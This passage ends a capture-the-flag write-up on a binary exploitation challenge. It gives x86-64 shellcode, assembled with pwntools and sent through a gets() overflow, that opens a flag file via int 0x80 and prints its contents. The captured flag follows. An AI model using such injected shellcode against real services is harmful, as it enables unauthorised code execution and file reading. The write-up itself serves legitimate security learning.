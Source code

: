
You can test with a local file and change the path of file to the file on your local and try to open with `int 0x80` to see the fd to open. Let's assume that the file opened successfully, the fd will be return to rax. We just need to take that fd to read and write the flag to us. Shellcode will be updated as follows:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10

	mov rbx, rbp
	mov rcx, 0
	mov rdx, 0
	mov rax, 5
	int 0x80

	mov rdi, rax
	mov rsi, 0x404500
	mov rdx, 0x100
	xor rax, rax
	syscall

	mov rax, 1
	mov rdi, 1
	syscall
	''')
p.sendline(shellcode)
```

And we just need to sendline for the gets() and our shellcode will be executed. 

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `KMA{Duet:_a_1337_fl4g_c4ptur3d_by_tw0_4rch1t3ctur3s}`